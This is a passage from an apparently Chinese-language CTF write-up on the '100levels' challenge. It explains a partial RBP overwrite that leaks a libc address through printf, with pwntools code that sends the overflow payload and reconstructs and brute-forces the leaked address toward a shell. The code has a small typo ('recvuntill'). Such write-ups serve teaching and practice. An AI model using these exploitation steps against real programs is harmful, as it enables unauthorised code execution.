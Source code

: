 所以我们可以通过patial overwrite来修改RBP从而指向前面的那一块内存(指向libc的地址的那一段栈空间)，利用泄露出来的地址就可以通过libc计算偏移拿到shell。所以可以通过递归函数第一层构造溢出修改RBP的低8位为0x5c，从而在下一层递归时通过printf泄露位于低8位为0x28处的地址(`[rbp+var_34]=0x5c-0x34=0x28`栈底为高地址，所以这里的`+var_34`实际上为地址值的减法)

```python
    p = process('./100levels')
    print p.recv()
    p.send('1')
    p.recvuntill("levels?")
    p.send('2')
    p.recvuntil("more?")
    p.send('0')

    p.recvuntil("Question: ")
    question = p.recvuntil("=")[:-1]
    answer = str(eval(question))
    payload = answer.ljust(0x30,'\x00') + '\x5c'
    p.send(payload)
    p.recvuntil("Level ")
    addr = int(p.recvuntil("Question: ")[:-10])
    log.info("addr=%#x",addr)
```

通过调试发现低八位为0x00处的地址并不固定，有时候时libc的地址，有时候却不是甚至会出现毫无意义的数据或者直接出错，此外还出现泄露的地址为负数，这是因为只能泄露出地址的低32位，低8个十六进制数。而这个数的最高位可能是0或者1，转换成有符号整数就可能是正负两种情况。因此需要对其进行处理：

```python
    if addr < 0 :
        addr += 0x100000000
```

泄露出来的只是地址的低32位，抛去前面的4个0，我们还需要猜16位，即4个十六进制数。不过，程序加载地址似乎总是在`0x000055XXXXXXXXXX-0x000056XXXXXXXXXX`间徘徊，因此我们的爆破空间缩小到了0x100*2=512次。随便选择一个在这个区间的地址拼上去

```python
    addr += 0x7F4300000000
```

为了加快成功率，显然不可能只针对一种情况做处理，我们可以看到这一块区间有很多libc地址

![Alt](img/bypass7.png)
